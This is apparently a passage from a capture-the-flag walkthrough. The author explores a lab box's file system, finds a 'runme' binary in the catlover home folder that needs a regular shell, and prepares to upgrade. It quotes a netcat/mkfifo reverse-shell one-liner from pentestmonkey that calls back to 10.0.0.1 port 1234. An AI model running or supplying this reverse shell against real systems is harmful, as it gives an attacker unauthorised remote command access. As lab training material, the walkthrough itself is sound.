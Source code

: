 ```text
ls -l home
drwxr-xr-x 2 0 0 4096 Apr  3 01:34 catlover

ls -l home/catlover
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```

However trying to run it give us this message:

```text
home/catlover/runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

Time to upgrade to a better shell. One that I use often is from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

This one seems to be pretty reliable. Let's check we have the needed commands:

```text
ls -l
drwxrwxr-x 2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x 2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x 3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x 3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x 2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x 2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x 2    0    0 4096 Apr  3 01:35 tmp
drwxr-xr-x 4    0    0 4096 Apr  2 22:43 usr

ls -l bin
-rwxr-xr-x 1 1001 1001 1113504 Apr  1 20:32 bash
-rwxr-xr-x 1    0    0   35064 Apr  1 20:32 cat
-rwxr-xr-x 1    0    0   35000 Apr  1 20:32 echo
-rwxr-xr-x 1    0    0  133792 Apr  1 20:32 ls
-rwxr-xr-x 1    0    0   35312 Apr  2 23:05 nc
-rwxr-xr-x 1    0    0   63704 Apr  1 20:32 rm
-rwxr-xr-x 1    0    0  121432 Apr  1 20:37 sh

ls -l usr
drwxr-xr-x 2 0 0 4096 Apr  3 01:31 bin
drwxr-xr-x 2 0 0 4096 Apr  2 22:53 lib

ls -l usr/bin
-rwxr-xr-x 1 0 0  63672 Apr  3 01:20 mkfifo
-rwxr-xr-x 1 0 0  88280 Apr  3 01:31 touch
-rwxr-xr-x 1 0 0 499264 Apr  2 22:43 wget
```

Having looked we can see all the needed commands are there, let's give it a go:
